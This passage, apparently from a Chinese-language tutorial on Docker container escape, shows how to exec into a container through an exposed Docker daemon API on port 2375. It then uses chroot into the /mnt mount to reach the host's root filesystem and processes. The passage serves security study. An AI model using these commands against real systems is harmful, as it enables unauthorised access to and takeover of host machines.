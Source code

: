 然后进入容器：

```plain
docker -H tcp://host:2375 exec -it CONTAINERID sh
```

默认执行命令只能看到容器内的：  
![image-20201210133100026](assets/1700701638-e983a9c3f66a60faedef61ea15a18593.png)  
进入到挂载进来的磁盘中，并切换根目录，则可以看到宿主机进程：

```plain
chroot /mnt sh
```

![image-20201210133155263](assets/1700701638-abd118e496a9edfecd6f5a20535656b7.png)  
因为挂载把宿主机根目录挂载到了容器中的/mnt 目录中，就再次回到了上述逃逸的攻击手段了，其他就不再赘述。
